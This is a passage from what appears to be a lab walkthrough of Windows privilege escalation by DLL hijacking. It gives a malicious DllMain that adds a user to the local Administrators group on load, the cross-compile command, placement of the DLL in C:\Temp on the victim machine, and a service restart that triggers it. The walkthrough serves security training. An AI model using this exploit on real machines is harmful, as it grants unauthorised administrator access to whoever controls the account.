 Since in the Windows machine there are some tools already uploaded, we downloaded on our Kali machine the source code in `C:\Users\User\Desktop\Tools\Source\windows_dll.c` and we change the function `DllMain`:

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}

```

We compile it with the command:

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

{% hint style="danger" %}
It must have the same file of DLL that process try to load as we have seen before!
{% endhint %}

Now "user" is not in Administrators group:\


<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

We upload the compiled file in victim machine and we copy it in `C:\Temp`:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Finally, we stop and start the dllsvc service with the command:

```powershell
sc stop dllsvc & sc start dllsvc
```

Now we no longer have the `NAME NOT FOUND` error we had before for the `C:\Temp` path which means that the malicious DLL was loaded and executed correctly by the service:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

And we confirm the successfully exploit by checking if the user belongs to the localgroup administrators:

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

## Service Escalation - binPath
